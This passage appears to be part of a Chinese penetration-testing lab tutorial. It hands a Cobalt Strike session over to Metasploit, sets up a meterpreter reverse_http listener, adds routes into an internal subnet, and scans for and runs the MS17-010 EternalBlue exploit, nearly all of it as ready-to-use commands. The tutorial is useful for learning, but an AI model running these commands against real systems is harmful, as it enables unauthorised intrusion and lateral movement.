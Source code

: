    在之前拿到的系统权限的会话窗口中输入命令：（其中，msf是监听器的名称！！！）
   ```shell
   spawn msf
   ```
   
   ![截图](66b8edd700935109f1fcecfbf13dd7db.png)
3. MSF监听联动配置
   
   我m们在msf中进行如下配置，即可使用cs移交过来的权限，输入命令：
   ```shell
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_http
   set lhost 0.0.0.0
   set lport 8888
   run
   ```
   
   ![截图](f17212cb793b747588596a2bdf998794.png)
4. 添加路由，使得msf能够通信到内网中
   ```shell
   run autoroute -p //查看当前路由表
   run post/multi/manage/autoroute //添加当前路由表
   ```
   
   如果自动添加报错的话也可以选择手动添加：
   ```shell
   run get_local_subnets //查看当前网段信息
   run autoroute -s 192.168.3.0/24 //添加路由信息
   ```
   
   ![截图](e17ac4bc9527b2a48ce182d5479f1877.png)
5. 检测模块
   
   需要先退出当前的会话，在msf的会话窗口下进行下一步的探测：
   ```shell
   bg
   ```
   
   ![截图](91851f5b898a88c0bbc53db636d64392.png)
   ```shell
   use auxiliary/scanner/smb/smb_ms17_010
   set rhosts 192.168.3.21-32 //设置扫描目标段
   set threads 5 //设置扫描线程数
   run 
   ```
   
   ![截图](ab246aa63f45498fa5a19fb3b5064c87.png)
6. 利用模块
   ```shell
   use exploit/windows/smb/ms17_010_eternalblue
   set payload windows/x64/meterpreter/bind_tcp //正向连接上线
   set rhost 192.168.3.25 //设置连接目标
   set rhosts 192.168.3.25 //设置扫描目标
   run
   ```
